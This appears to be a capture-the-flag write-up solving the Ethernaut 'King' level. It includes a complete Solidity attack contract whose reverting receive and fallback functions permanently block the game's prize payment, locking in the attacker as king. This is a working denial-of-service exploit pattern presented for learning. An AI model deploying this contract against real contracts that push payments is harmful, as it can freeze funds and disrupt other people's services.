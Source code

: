 # [9. King](https://ethernaut.openzeppelin.com/level/0x43BA674B4fbb8B157b7441C2187bCdD2cdF84FD5)

The ponzi starts with 0.001 ether. We can exploit the game by giving an greater or equal ether, but via a contract that disallows receiving ether. This way, if someone is eligible to be the new king, the transaction will fail when it tries to send us the prize!

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.0;
 
contract OneWayForward {  

  receive () external payable {
    revert("Im the king!");
  }

  fallback () external payable {
    revert("Im the king!");
  }
  
  function forward(address payable _to) public payable {
    (bool sent, ) = _to.call{value: msg.value}("");
    require(sent, "forwarded call failed");
  }

}
```

The contract is simple: a forward function forwards our sent money to some address. The recieving address will know the contract as `msg.sender`, however they won't be able to send money back. Preventing to recieving money can be done by **not** implementing `receive` and `fallback` functions. In my case, I wanted to be a little bit cheeky and I implement them but inside revert with "Im the king!" message when they send me money ;)

**A note on Call vs. Transfer**: We used `_to.call{value: msg.value}("")` instead of `_to.transfer(msg.value)`. This is because `transfer` sends 2300 gas to the receiver, but that gas may not always be enough for the code to run on their side; so we must forward all our gas to them with `call`.
